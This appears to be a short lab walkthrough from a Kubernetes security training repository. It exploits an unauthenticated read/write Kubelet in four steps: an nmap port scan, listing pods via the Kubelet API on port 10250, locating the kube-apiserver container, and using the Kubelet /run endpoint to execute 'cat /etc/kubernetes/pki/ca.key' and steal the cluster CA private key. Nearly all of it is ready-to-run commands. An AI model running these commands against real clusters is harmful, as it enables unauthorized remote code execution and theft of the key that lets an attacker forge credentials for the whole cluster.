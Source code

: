## Unauthenticated Read/Write Kubelet

Exploiting this takes a couple of steps

1. Scan the cluster `nmap [CLUSTER IP] -p-`
2. Get a list of running pods `curl -k https://[CLUSTERIP]:10250/pods/ | jq`
3. From this output, find the name of the pod and container running the Kubernetes API server. The pod name should be something like `kube-apiserver-rwkubeletnoauth-control-plane`
4. Retrieve the key `curl -k https://[CLUSTERIP]:10250/run/[Namespace]/[Pod]/[Container] -k -XPOST -d "cmd=cat /etc/kubernetes/pki/ca.key"`
